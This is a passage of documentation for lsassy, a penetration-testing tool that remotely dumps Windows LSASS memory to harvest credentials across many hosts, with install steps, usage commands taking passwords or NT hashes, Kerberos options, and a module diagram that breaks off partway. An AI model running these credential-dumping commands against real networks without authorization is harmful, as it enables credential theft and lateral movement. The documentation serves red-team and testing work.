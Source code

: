 ### From source for development

```
python3 setup.py install
```

## Basic Usage

**lsassy** works out of the box on multiple targets (IP(s), range(s), CIDR(s), hostname(s), FQDN(s), file(s) containing a list of targets)

```bash
lsassy [-d domain] -u pixis -p P4ssw0rd targets
lsassy [-d domain] -u pixis -H [LM:]NT targets
```

By default, lsassy will try to dump lsass remotely using `comsvcs.dll` method, either via WMI or via a remote scheduled task.

### Kerberos

**lsassy** can authenticate with Kerberos. It requires a valid TGT in `KRB5CCNAME` environment variable. See [advanced usage](Lsassy-Advanced-Usage#kerberos) for more details.

```bash
lsassy -k targets
```


### Examples

```bash
 lsassy -d hackn.lab -u pixis -p P4ssw0rd 192.168.1.0/24
 lsassy -d hackn.lab -u pixis -p P4ssw0rd 192.168.1.1-10
 lsassy -d hackn.lab -u pixis -p P4ssw0rd hosts.txt
 lsassy -d hackn.lab -u pixis -p P4ssw0rd 192.168.1.1-192.168.1.10
```

## Advanced Usage

Different lsass dumping methods are implemented in **lsassy**, and some option are provided to give control to the user on how the tool will proceed.

### Internal working

**lsassy** is divided in modules

```
                   +-----------+
                   |   Writer  |
                   +-----+-----+
                         |
                         |
 +----------+      +-----+-----+    +---------+
 |  Parser  |------|   Core    |----| Session |
 +----------+      +-----+-----+    +---------+
                         |
                         |
                   +-----------+
                   |    Dump   |-+
                   |  Methods  | |-+    +----------+
                   +-----+-----+ | |----|   File   |
                     +-----------+ |    +----------+
                      +------------+
                         |
                         |
                   +-----------+
                   |    Exec   |-+
```